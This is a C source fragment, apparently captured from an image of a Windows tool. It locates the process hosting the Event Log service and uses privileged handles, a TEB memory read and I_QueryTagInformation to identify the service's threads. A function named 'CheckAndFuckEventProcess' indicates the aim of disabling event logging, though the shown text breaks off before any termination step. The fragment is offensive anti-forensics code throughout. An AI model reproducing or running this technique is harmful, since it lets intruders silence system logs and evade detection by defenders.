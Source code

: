 ```text
    if (wcsstr(lpStrings, L"EventLog"))
    {
        result = true;
    }

    free(lpStrings);

    return result;
}

DWORD GetEventLogProcessId() {
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (INVALID_HANDLE_VALUE == hSnapshot)
    {
        return 0;
    }
    DWORD logpid = 0;
    PROCESSENTRY32W pe32 = { 0 };
    pe32.dwSize = sizeof(PROCESSENTRY32W);
    BOOL bRet = Process32FirstW(hSnapshot, &pe32);
    while (bRet)
    {
        if (CheckEventProcess(pe32.th32ProcessID))
        {
            logpid = pe32.th32ProcessID;
            CloseHandle(hSnapshot);
            return logpid;
        }
        bRet = Process32NextW(hSnapshot, &pe32);
    }
    CloseHandle(hSnapshot);
    return 0;
}


BOOL CheckAndFuckEventProcess(DWORD processId, DWORD threadId, PULONG pServiceTag)
{


    ;
    HANDLE hProcess = NULL;
    HANDLE hThread = NULL;
    HANDLE hTag = NULL;
    HMODULE advapi32 = NULL;
    THREAD_BASIC_INFORMATION tbi = { 0 };
    pI_QueryTagInformation I_QueryTagInformation = NULL;
    pNtQueryInformationThread NtQueryInformationThread = NULL;
    SC_SERVICE_TAG_QUERY tagQuery = { 0 };
    WCHAR Buffer[MAX_PATH] = { 0 };

    NtQueryInformationThread = (pNtQueryInformationThread)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "NtQueryInformationThread");
    hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, threadId);
    NtQueryInformationThread(hThread, (THREAD_INFORMATION_CLASS)0, &tbi, 0x30, NULL);//内存对齐
    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, processId);
    ReadProcessMemory(hProcess, ((PBYTE)tbi.pTebBaseAddress + 0x1720), &hTag, sizeof(HANDLE), NULL);


    advapi32 = LoadLibrary(L"advapi32.dll");

    I_QueryTagInformation = (pI_QueryTagInformation)GetProcAddress(advapi32, "I_QueryTagInformation");
```